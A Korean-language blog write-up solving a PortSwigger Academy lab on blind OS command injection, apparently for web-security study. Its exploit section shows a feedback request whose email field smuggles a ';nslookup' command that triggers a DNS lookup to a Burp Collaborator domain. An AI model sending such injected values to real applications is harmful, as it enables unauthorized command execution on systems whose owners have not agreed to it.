



+++
date = '2026-09-29T20:40:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Blind OS command injection with out-of-band interaction"
summary = "비동기로 처리되는 피드백 명령에서 DNS 조회를 발생시키고 Burp Collaborator로 확인하는 Blind OS Command Injection 풀이"
toc = true
tags = ["OS Command Injection", "Blind OS Command Injection", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

> 

이 랩은 피드백에 포함된 입력을 셸 명령으로 전달하고 비동기로 실행한다. 명령 출력이 응답에 표시되지 않으므로, Burp Collaborator 도메인에 DNS 조회를 발생시켜 명령 실행을 확인하는 것이 목표다.

### OS Command Injection 진단

먼저 피드백 요청을 확인하면 다음과 같다.

```text
POST /feedback/submit HTTP/2
Host: 0a6900460347a5918256c51c000400b5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

csrf=qTxkaqWCb5qbYjQr5HcgpOgHnMUvTLmU&name=test&email=hacker%40evil-user.net&subject=test&message=test
```

피드백에 입력한 값 중 `email`을 확인한다. 이 랩은 명령을 비동기로 실행하므로, 응답 시간 대신 외부 DNS 조회가 발생하는지를 관찰한다.

---

## 익스플로잇

`email`에 `nslookup`을 추가하고 Burp Collaborator에서 발급받은 도메인을 조회 대상으로 지정한다.

```text
POST /feedback/submit HTTP/2
Host: 0a6900460347a5918256c51c000400b5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

csrf=qTxkaqWCb5qbYjQr5HcgpOgHnMUvTLmU&name=test&email=hacker%40evil-user.net;nslookup+wssc2si5xsp3q3m56mfro0hpmgs7gx4m.oastify.com;&subject=test&message=test
```

요청을 전송한 뒤 Collaborator에서 DNS 상호작용을 확인한다. 입력한 주소에 대한 조회가 발생하며 실습이 완료된다.





---

## 정리

피드백의 HTTP 응답과 별개로 발생한 DNS 조회가 명령 실행의 흔적이 됐다. 애플리케이션이 작업을 비동기로 넘기더라도, 실행된 명령이 외부와 통신하면 그 통신을 통해 결과를 관찰할 수 있다.

진단에서는 요청별로 구분할 수 있는 Collaborator 주소와 발생 시각을 대조한다. 이번 결과는 DNS 조회 명령의 실행을 보여 주며, 명령의 출력값까지 확인하는 흐름은 다음 데이터 유출 랩에서 다룬다.

유형별 원리와 다른 실습은 [OS Command Injection Lab](/lab/portswigger-os-command-injection/)에 정리했다.
